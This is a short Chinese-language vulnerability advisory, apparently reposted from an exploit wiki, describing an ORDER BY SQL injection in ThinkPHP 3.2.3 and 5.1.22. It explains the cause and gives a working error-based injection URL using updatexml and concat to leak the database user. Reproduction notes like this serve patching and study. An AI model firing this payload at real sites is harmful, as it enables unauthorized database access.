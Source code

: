 # Thinkphp 3.x order by 注入漏洞

> 原文：[http://book.iwonder.run/0day/Thinkphp/ThinkPHP3/Thinkphp 3.x order by 注入漏洞.html](http://book.iwonder.run/0day/Thinkphp/ThinkPHP3/Thinkphp 3.x order by 注入漏洞.html)

## 一、漏洞简介

ThinkPHP 在处理 order by 排序时，当排序参数可控且为关联数组(key-value)时，由于框架未对数组中 key 值作安全过滤处理，攻击者可利用 key 构造 SQL 语句进行注入，该漏洞影响 ThinkPHP 3.2.3、5.1.22 及以下版本。

## 二、漏洞影响

ThinkPHP 3.2.3、5.1.22 及以下版本。

## 三、复现过程

ThinkPHP3.2.3 漏洞代码（/Library/Think/Db/Driver.class.php）：

![image](img/126a349d4afcc71273e121871ed5cb9a.png)

ThinkPHP 5.1.22 漏洞代码（framework/library/think/db/Query.php）：

![image](img/cc06e77d8ae2270f4fc2c0368ff15dda.png)

从上面漏洞代码可以看出，当$field 参数为关联数组（key-value）时，key 值拼接到返回值中，SQL 语句最终绕过了框架安全过滤得以执行。

### ThinkPHP 3.2.3

访问如下 URL 即可进行漏洞利用：

```
http://www.0-sec.org/ThinkPHP/?order[updatexml(1,concat(0x3a,user()),1)]=1 
```

![image](img/24dd12773454aeadc8a837d753088abd.png)

## 参考链接

> [https://mp.weixin.qq.com/s?__biz=MzIwNTcxNTczMQ==&mid=2247483907&idx=1&sn=3c1f9874878c92d10cff30c1c263fa8a&scene=21#wechat_redirect](https://mp.weixin.qq.com/s?__biz=MzIwNTcxNTczMQ==&mid=2247483907&idx=1&sn=3c1f9874878c92d10cff30c1c263fa8a&scene=21#wechat_redirect)

